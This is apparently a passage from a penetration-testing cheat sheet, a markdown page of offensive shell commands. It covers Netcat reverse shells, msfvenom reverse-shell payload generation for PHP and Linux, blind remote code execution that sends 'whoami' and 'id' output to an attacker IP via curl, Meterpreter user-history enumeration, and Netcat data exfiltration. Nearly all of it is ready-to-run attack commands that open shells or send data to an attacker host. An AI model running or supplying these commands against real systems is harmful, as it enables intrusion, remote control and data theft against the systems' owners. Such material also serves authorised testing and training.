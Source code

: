 Then if we want to scan the service we can use nmap:
```bash
msf > nmap -sS -sV -p 1234 localhost
```


#### Reverse shell with Netcat
Attacker:
```bash
nc -lvp 8888 -e /bin/bash
```
Target (the IP of the attacker):
```bash
nc -v 192.168.1.1 8888
```

#### Generate a reverse shell payload with msfvenom
```bash
msfvenom --list payloads | grep <keyword>
```
```bash
msfvenom -p php/reverse_php lhost=192.168.0.58 lport=443 -o reverse.php
```
```bash
msfvenom -p linux/x64/shell/reverse_tcp lhost=192.168.0.58 lport=443 -f elf -o reverse443
chmod +x reverse443
```

Note: If you have generated a meterpreter payload shell, you have to use meterpreter in order to receive back the connection  


#### Blind Remote Code Execution
Target (Use the Attacker IP)
```bash
curl http://192.168.1.130:53/`whoami`
```
or 
```bash
curl http://192.168.1.130:53/`id | base64`
```
Attacker:
```bash
nc -lvp 53
```

Tip: You can also create a reverse shell with `msfvenom` and let the target download it  

#### Enumerating users history with meterpreter
- `background`
- `use post/linux/gather/enum_users_history`
- `set SESSION 1`
- `exploit`

#### Data exfiltration with Netcat
Receiver:
```bash
nc -lvnp 8888 > received.txt
```
Sender (the IP of the receiver):
```bash
cat message.txt | nc -v 192.168.1.1 8888
```
